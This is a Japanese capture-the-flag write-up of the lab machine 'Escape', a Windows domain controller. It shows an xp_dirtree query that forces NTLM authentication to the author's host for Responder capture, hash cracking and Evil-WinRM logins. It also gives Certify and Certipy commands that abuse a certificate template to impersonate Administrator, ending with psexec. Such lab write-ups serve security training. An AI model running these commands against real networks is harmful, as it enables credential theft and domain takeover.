## Escape

```
Machine IP: 10.10.11.202
```
今回はWindows OSが使われている問題。  

nmapの結果
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-12 09:07:17Z)
123/udp open  ntp
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-12T09:10:18+00:00; +8h00m08s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-12T09:10:19+00:00; +8h00m08s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server  15.00.2000.00
| ms-sql-ntlm-info: 
|   Target_Name: sequel
|   NetBIOS_Domain_Name: sequel
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sequel.htb
|   DNS_Computer_Name: dc.sequel.htb
|   DNS_Tree_Name: sequel.htb
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-04-11T12:37:56
|_Not valid after:  2053-04-11T12:37:56
|_ssl-date: 2023-04-12T09:10:18+00:00; +8h00m08s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-12T09:10:18+00:00; +8h00m08s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-12T09:10:19+00:00; +8h00m08s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/12%Time=64360441%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h00m07s, deviation: 0s, median: 8h00m07s
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 
|_    TCP port: 1433
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-12T09:09:39
|_  start_date: N/A
```

注目するべきは、KerberosやSMB、LDAPが動いていること。  
`dc.sequel.htb`ドメインが判明したこと。  
Microsoft SQL Serverが動いていること。  

53番のDNSからは何も得られなかった。  

`enum4linux`を使用し、SMBなどから情報を列挙してみるがこれといった情報は得られなかった。  




`smbclient`を使用しSMBサーバーに接続してみると、  
共有フォルダを取得することができた。  



`Public`フォルダに接続してみると、  
「SQL Server Procedures.pdf」というpdfファイルが置かれている。  


ダウンロードして見てみると、  
SQLサーバーへの資格情報らしきものが見つかる。  



SQLサーバーへの資格情報を入手したので、  
Impacketのmssqlclient.pyを使用して接続を行う。  


Microsoft SQL Serverへの接続が成功したので、  
Responderを使用してNTLMハッシュ値の入手を行う。  

SQLクエリで以下を実行する。  
```
EXEC xp_dirtree '\\10.10.14.3\hoge'
```

これは、指定されたパスにあるファイルのリストを取得するために使用するクエリなのだが、接続先に私のIPを指定している。  

ここで、Responderを使用してSMBからの認証情報を中間者攻撃で入手する。  




ハッシュ値を入手できたので、John The Ripperで解読を行う。  


ハッシュ値から資格情報を入手。  
Evil-WinRMを使用し、接続を行う。  



ルートディレクトリに`SQLServer`というディレクトリがある。  
`Logs`ディレクトリの中に`ERRORLOG.BAK`というログファイルがある。  



`type`コマンドで見てみる。  


どうやら間違えてユーザー名入力にパスワードを入力してしまったログが見つかる。  


新たな資格情報を入手できたので、  
Evil-WinRMで接続する。  



Documentsフォルダに色々ファイルが見つかった。  
`winPEASx64.exe`は他の攻略者が置いたものかな？  



中に`Certify.exe`という実行ファイルがある。  
調べると、デジタル署名や証明書の作成と管理を行うコマンドラインツールらしい。  

引数に何も与えず実行。  


使用方法がずらっとでてくる。  

まずは以下を実行してみる。  
脆弱/悪用可能な証明書テンプレートを探してくれるらしい。  


```
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Certify.exe find /vulnerable
```



`CA Name`が`dc.sequel.htb\sequel-DC-CA`、`Template Name`が`UserAuthentication`という情報を取得できた。  


次に以下を実行する。  
新しい証明書を要求する。ここで管理者権限のAdministratorで要求する。  


```
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```




デジタル証明書を入手する。  
最後に、  
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

というopensslのコマンド構文も表示される。  

入手した証明書をファイルにコピペし、  
opensslを実行。  

`cert.pfx`が出力される。  

証明書があるので、`Certipy`を使用してKerberos認証にてTGT(Ticket Granting Ticket)を発行する。  
```
certipy auth -pfx cert.pfx -username Administrator -dc-ip 10.10.11.202 -domain sequel.htb
```



ハッシュを入手できたので、  
`psexec.py`を使用してリモートコマンドを実行できるようにする。  
psexec.pyもimpacketの一部であり、ユーザー名とパスワードのハッシュ値であるNTLMハッシュを使用する。  



管理者権限でコマンドを打てるようになり、rootフラグゲット。  

